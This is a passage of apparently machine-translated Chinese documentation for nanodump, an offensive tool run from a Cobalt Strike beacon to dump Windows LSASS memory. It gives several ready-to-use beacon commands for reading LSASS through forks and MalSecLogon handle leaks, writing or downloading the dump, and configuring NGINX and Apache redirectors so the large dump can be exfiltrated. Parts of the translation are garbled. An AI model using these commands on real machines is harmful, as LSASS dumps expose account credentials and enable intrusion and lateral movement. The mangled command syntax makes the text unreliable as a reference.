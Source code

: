 #### –二进制-b <路径>

二进制文件的路径，如`**C:\Windows\notepad.exe**`。
该选项专用于`**--malseclogon**`和`**--dup**`。

## 例子

通过创建 fork 间接读取 LSASS，并使用无效签名将转储写入磁盘:

**beacon>nanodump–fork–write C:\ lsass . DMP**

使用 MalSecLogon 在记事本进程中泄漏 LSASS 句柄，复制该句柄以访问 LSASS，然后通过创建一个 fork 间接读取它，并下载带有有效签名的转储:

**beacon>nanodump–malseclogon–dup–fork–binary C:\ Windows \ notepad . exe–valid**

使用 MalSecLogon 获得一个句柄，使用 fork 间接读取 LSASS，并使用有效签名将转储写到磁盘(将上传一个 nanodump 二进制文件！):

**beacon>nanodump–malseclogon–fork–valid–write C:\ Windows \ Temp \ lsass . DMP**

## HTTPS 导演

如果您正在使用 HTTPS 重定向器(正如您应该做的那样)，由于泄漏转储的请求的大小，您可能会在下载转储文件时遇到问题。
增加 web 服务器上请求的最大大小，以允许 nanodump 下载转储。

#### NGINX

**地点~ ^…$ {
……
client _ max _ body _ size 50m；
}**

A **pache2**

**LimitRequestBody 52428800**

[**Download**](https://github.com/helpsystems/nanodump)